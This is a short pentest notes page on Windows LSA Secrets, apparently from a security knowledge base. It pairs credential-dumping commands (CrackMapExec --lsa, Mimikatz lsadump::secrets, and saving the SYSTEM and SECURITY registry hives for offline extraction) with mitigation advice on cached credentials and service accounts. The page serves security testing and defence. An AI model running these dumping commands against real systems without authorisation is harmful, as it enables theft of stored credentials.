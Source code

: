 ```yaml
---
description: Additional information on LSA Secrets
---
```


# LSA Secrets

### Dumping LSA Secrets

Dumping LSA Secrets with CrackMapExec:

```bash
crackmapexec smb [HOST] -u [USER] -p [PASSWORD] --lsa
```

Dumping LSA Secrets with Mimikatz:

```bash
lsadump::secrets
```

Dumping LSA Secrets manually and then reading them with Mimikatz

```powershell
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

```bash
Cached credential set to 0 on servers
Cached credential set to 1 on workstations
```

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

* [Dumping and Cracking mscash ](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)
* [Preventing 4 Common Methods of Credentials Exfiltration](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
* [Windows LSA Secrets](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=23)

